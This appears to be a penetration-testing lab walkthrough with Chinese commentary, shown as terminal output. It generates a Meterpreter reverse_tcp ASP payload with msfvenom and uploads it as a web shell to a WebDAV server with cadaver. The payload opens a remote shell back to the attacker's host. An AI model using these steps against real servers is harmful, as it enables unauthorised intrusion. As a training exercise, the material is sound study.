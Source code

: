 ```
root@kali:~# msfvenom -h
错误：MsfVenom - Metasploit 独立有效负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [选项]

选项：
    -p, --payload 要使用的有效负载。指定“-”或标准输入以使用自定义有效负载
        --payload-options 列出有效负载的标准选项
    -l, --list [type] 列出模块类型。选项有：payloads、encoders、nops、all
    -n, --nopsled 在有效负载上添加一个 [length] 大小的 nopsled
    -f, --format 输出格式（使用 --help-formats 作为列表）
        --help-formats 列出可用格式
    -e, --encoder 要使用的编码器
    -a, --arch 要使用的架构
        --platform 有效负载的平台
        --help-platforms 列出可用平台
    -s, --space 生成的有效负载的最大大小
        --encoder-space 编码有效载荷的最大大小（默认为 -s 值）
    -b, --bad-chars 要避免的字符列表例如：'\x00\xff'
    -i, --iterations 对有效载荷进行编码的次数
    -c, --add-code 指定要包含的附加 win32 shellcode 文件
    -x, --template 指定一个自定义的可执行文件作为模板使用
    -k, --keep 保留模板行为并将有效负载作为新线程注入
    -o, --out 保存有效载荷
    -v, --var-name 指定用于某些输出格式的自定义变量名称
        --smallest 生成尽可能小的有效载荷
    -h, --help 显示此消息
```

生成成功，将架构设置为 x32 位。始终建议在此处使用 32 位 Meterpreter 有效负载，主要是因为如果您不熟悉或不确定目标操作系统是什么架构，则无论系统是 x32 位还是 x64 位，x32 位都可以工作。

```
root@attackdefense:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.21.3 LPORT=1234 -f asp -o shell.asp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of asp file: 38254 bytes
Saved as: shell.asp
```

```
root@attackdefense:~# ls
Desktop  impacket  shell.asp  thinclient_drives
root@attackdefense:~# pwd
/root
```

```
root@attackdefense:~# cadaver http://10.0.20.119/webdav/
Authentication required for 10.0.20.119 on server `10.0.20.119':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     49  Jan  4  2021
        web.config                           168  Jan  4  2021
dav:/webdav/> put /root/shell.asp
Uploading /root/shell.asp to `/webdav/shell.asp':
Progress: [=============================>] 100.0% of 38254 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     49  Jan  4  2021
        shell.asp                          38254  Sep 11 14:47
```